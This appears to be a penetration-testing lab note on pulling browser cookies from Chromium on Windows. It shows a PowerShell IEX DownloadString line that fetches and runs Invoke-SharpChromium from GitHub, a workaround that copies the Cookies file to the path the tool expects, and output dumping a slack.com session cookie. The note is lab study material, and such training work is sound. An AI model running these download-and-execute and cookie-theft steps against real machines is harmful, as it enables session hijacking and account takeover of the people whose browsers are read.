 **Cookie Extraction from Chromium-based Browsers**

Chromium uses `DPAPI` to encrypt their password similar to local incrypted password found in the previous sections.



**PowerShell Script - Invoke-SharpChromium**

{% embed url="https://github.com/S3cur3Th1sSh1t/PowerSharpPack/" %}
This is the script used in the below snippet
{% endembed %}

```powershell-session
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSh
arpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')
PS C:\htb> Invoke-SharpChromium -Command "cookies slack.com"

[*] Beginning Google Chrome extraction.

[X] Exception: Could not find file 'C:\Users\lab_admin\AppData\Local\Google\Chrome\User Data\\Default\Cookies'.

   at System.IO.__Error.WinIOError(Int32 errorCode, String maybeFullPath)
   at System.IO.File.InternalCopy(String sourceFileName, String destFileName, Boolean overwrite, Boolean checkout)
   at Utils.FileUtils.CreateTempDuplicateFile(String filePath)
   at SharpChromium.ChromiumCredentialManager.GetCookies()
   at SharpChromium.Program.extract data(String path, String browser)
[*] Finished Google Chrome extraction.

[*] Done.
```

The error is because it is looking at the wrong location while the actual file is locatd in `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Network\Cookies`&#x20;

**Copy Cookies to SharpChromium Expected Location**

```powershell-session
PS C:\htb> copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"
```

**Invoke-SharpChromium Cookies Extraction**

```powershell-session
PS C:\htb> Invoke-SharpChromium -Command "cookies slack.com"

[*] Beginning Google Chrome extraction.

--- Chromium Cookie (User: lab_admin) ---
Domain         : slack.com
Cookies (JSON) :
[

<SNIP>

{
    "domain": ".slack.com",
    "expirationDate": 1974643257.67155,
    "hostOnly": false,
    "httpOnly": true,
    "name": "d",
    "path": "/",
    "sameSite": "lax",
    "secure": true,
    "session": false,
```